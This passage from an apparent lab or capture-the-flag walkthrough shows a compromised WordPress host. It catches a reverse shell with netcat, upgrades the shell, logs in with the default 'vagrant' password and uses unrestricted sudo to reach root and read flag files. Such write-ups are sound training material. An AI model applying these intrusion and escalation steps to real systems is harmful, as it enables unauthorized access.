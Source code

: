Now we have a reverse shell as the `www-data` user.


```shell
geobour98@kali:~$ nc -lvnp 443
listening on [any] 443 ...                                                                               
connect to [192.168.49.81] from (UNKNOWN) [192.168.81.217] 54292                                         
bash: cannot set terminal process group (1428): Inappropriate ioctl for device                           
bash: no job control in this shell 
<ress/assets/fonts/blog/wp-content/uploads/2022/09$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<content/uploads/2022/09$ python3 -c 'import pty;pty.spawn("/bin/bash")'     
<ress/assets/fonts/blog/wp-content/uploads/2022/09$ ^Z
zsh: suspended  nc -lvnp 443

geobour98@kali:~$ stty raw -echo;fg
[1]  + continued  nc -lvnp 443
<content/uploads/2022/09$ export TERM=xterm-256color
www-data@ubuntu-xenial:/var/www/wordpress/assets/fonts/blog/wp-content/uploads/2022/09$ stty rows 38 cols 111
www-data@ubuntu-xenial:/var/www/wordpress/assets/fonts/blog/wp-content/uploads/2022/09$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Navigate to `/home` and we see home folders of the users: `james`, `ubuntu` and `vagrant`.

`Vagrant` is an open-source tool that allows you to create, configure, and manage boxes of virtual machines through an easy to use command interface. 

There is also a default password: `vagrant` for root on the Vagrant tool. We can try that password for the `vagrant` user.

```shell
www-data@ubuntu-xenial:/home/vagrant$ su vagrant                                                         
Password:                                                                                                
vagrant@ubuntu-xenial:~$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
```

Now we are the user `vagrant` and can read the `local.txt` from `/home/james/` directory.


```shell
vagrant@ubuntu-xenial:/home/james$ cat local.txt 
[REDACTED]
```

## Privilege Escalation

After executing the command: `sudo -l` we see that we can execute anything as `root`.

```shell
vagrant@ubuntu-xenial:/home/james$ sudo -l
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL
vagrant@ubuntu-xenial:/home/james$ sudo -s
root@ubuntu-xenial:/home/james# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-xenial:/home/james# cd /root
root@ubuntu-xenial:/root# cat proof.txt
[REDACTED]
```